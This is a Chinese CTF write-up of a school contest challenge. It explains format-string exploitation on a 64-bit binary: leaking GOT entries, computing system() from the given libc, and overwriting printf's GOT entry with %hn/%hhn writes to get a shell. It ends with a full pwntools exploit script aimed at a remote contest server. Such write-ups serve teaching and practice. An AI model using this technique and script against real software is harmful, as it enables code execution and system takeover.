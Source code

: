 #格式化字符串
题目是老计出的校赛题。给了程序和lib库  
ida启动.jpeg f5  
&emsp;&emsp;可以看出read将用户输入的数据存在栈中，而且printf没有对输出的字符串做格式化，可以通过格式化漏洞对内存进行任意读写；  
  
<img src="/images/20181107/0.png" />   

&emsp;&emsp;首先进行一些简单的尝试，用ida找到调用printf函数处，下断点；  
  
<img src="/images/20181107/1.png" />   
 
---------------------  

**先预习一下格式化字符串的利用**：  

&emsp;&emsp;%c: 输出字符，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%d: 输出十进制整数，配上%n可用于向指定地址写数据。  
&emsp;&emsp;%x: 输出16进制数据，如%i$x表示要泄露偏移i处4节长的16进制数据，%i$lx表示要泄露偏移i处8字节长的16进制数据，32Bit和64Bit环境下一样。  
&emsp;&emsp;%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。    
&emsp;&emsp;%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。    
&emsp;&emsp;
%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x%10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。  
&emsp;&emsp;
%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。  
  
-----
&emsp;&emsp;输入%p,发现打印出的地址为`0x7ffff7dd2683`，而栈顶的地址为`0x7fffffffdf40` &emsp;(这里我不太明白，为什么写入是从rdi指针指向的偏移量为8的栈地址处开始的，然后printf的打印的内容从这里以前偏移量为8的位置开始。。也就是说输入%8p的时候才打印输入的内容。  
  
<img src="/images/20181107/2.png" />     
  
&emsp;&emsp;尝试了一下`%i$s`，打印偏移量为i的所存地址中的内容。由于可以写入内容到栈中，可以构造`%i$p+ padding*(( i-8 )*8-i) + (要读的地址)` 这样的形式来对指定内容进行读取，这就是格式化字符串中所说的任意读。  
  
&emsp;&emsp;然后尝试了一下`%n`,,pwntools中有fmtstr_payload简易化写入payload的构造，但其局限与32位，由于这题是64位的，还得自己手动打payload，由于基础知识的缺少，这里坑了好久。。尝试了许多次%n输入，gdb 中使用dd查看内存却老是看不到自己想要打印的内容，逐渐认识到以下两点:  
  
1. 通过`%{}x%i$n.format()`的格式写入时，是将前面括号内的十进制数字转换位16进制写入，当通过此格式写入第二个时，构造payload要将后面的地址的部分的值减去前面一次输入的值，也就是第二次程序将会把前一次括号内的值加上后一次括号内的值的和的十六进制作为输入的值，这里又是坑多多，当地址值恰好第一次的值小，第二次的值大，相减作出的负值是行不通的，大概是输入的‘-’号不能被机器理解成负号。。。于是构造payload要么写多种情况，，要么就将payload多试几次= =（可能有别的方法我不知道= =#)  
2. 当写入的值太大时程序会发生崩溃，因此可以使用%hn %hnn来分别写入2个字节、1个字节，此题读出的地址值为5字节，可以分为1，2，2来写入，！！注意把要写入的地址拆分成3个后，要把他们写入各自相应的地址内。
  
  
&emsp;&emsp;接下来的思路就是，算出system在内存中的值，然后把printf在got表中的值替换为system的地址，再把`'/bin/sh\x00'`输入作为printf的参数，实际上就是运行了`system('/bin/sh')`的指令。  
&emsp;&emsp;system的值可以用任意写先获得got表中任意函数在内存中的值，然后根据题目给的lib库的相对偏移计算。（这里又有坑）  
&emsp;&emsp; 我第一次是通过泄露printf的值来计算system的地址，调了半天不行，才发现泄露的并不是printf的地址而是栈中后续的内容，构造的`printf("%i$s",printf_got) `源程序中的`printf(&buf,&buf)`
； 所以是`printf("%i$s","aaaa...printf_got" ,"%i$s","aaaa...printf_got")`??  
&emsp;&emsp;总之是打不出来printf的地址，但是换一个函数的地址打就ok  
  
另外学到一个加载题目给的库的方法  
  
<img src="/images/20181107/3.png" />   
  
最后是exp：  
  
    from pwn import *
	#p=process('./pwn6',env={'LD_PRELOAD':'../libc-2.23.so'})


	p=remote("123.206.131.120",10006)

	elf=ELF('./pwn6')
	libc=ELF('libc-2.23.so')
	printf_got=elf.got['printf']
	puts_got=elf.got['puts']
	setbuf_got=elf.got['setbuf']
	puts_offset=libc.symbols['setbuf']-libc.symbols['puts']
	system_offset=libc.symbols['setbuf']-libc.symbols['system']
	print p.recv()
	#gdb.attach(p)
	p.sendline('\x25\x31\x31\x24\x73\x00'+'\x25\x31\x32\x24\x73\x00'+'a'*12+p64(setbuf_got)+p64(printf_got))
	print p.recvline()
	setbuf_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('printf:'+hex(setbuf_addr))
	p.sendline('\x25\x31\x31\x24\x73'+'a'*19+p64(puts_got))
	print p.recvline()
	puts_addr = u64(p.recvline()[:5]+'\x00\x00\x00')
	log.info('puts:'+hex(puts_addr))
	log.info('puts_offset:'+hex(setbuf_addr-puts_offset))
	system_addr=setbuf_addr-system_offset
	log.info('system_addr:'+hex(system_addr))
	
	offset_5=(system_addr & 0x0000ffff00000000)>>32
	offset_34=(system_addr& 0x00000000ffff0000)>>16
	offset_12=system_addr & 0x000000000000ffff
	
	
	
	if  offset_12 > offset_34 :
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%14$hn'.format(   offset_34 - offset_5    )
		payload+='%{}x%15$hn'.format(    offset_12 - offset_34   )
		log.info('positive')
	else:
		payload='%{}x%13$hhn'.format(  offset_5  )
		payload+='%{}x%15$hn'.format(  offset_12 - offset_5  )
		payload+='%{}x%14$hn'.format(    offset_34 - offset_12    )
		log.info('negative')
	
	top=len(payload)
	payload+=(40-top)*'a'+p64(printf_got+0x4)+p64(printf_got+0x2)+p64(printf_got)

	#gdb.attach(p)
	raw_input()
	log.info('payload:'+payload)
	p.send(payload)
	p.recv()
	p.sendline('\x00\x00/bin/sh\x00')
	p.interactive()



最后还有一个要注意的地方，，最后发送的参数这里是`'\x00\x00/bin/sh\x00'`，前面放了几个‘垫片’，是因为说找不到in/sh啥的，估计是偏移的问题，虽然能拿到shell，但是使用次数仅在他的循环次数内，就酱紫。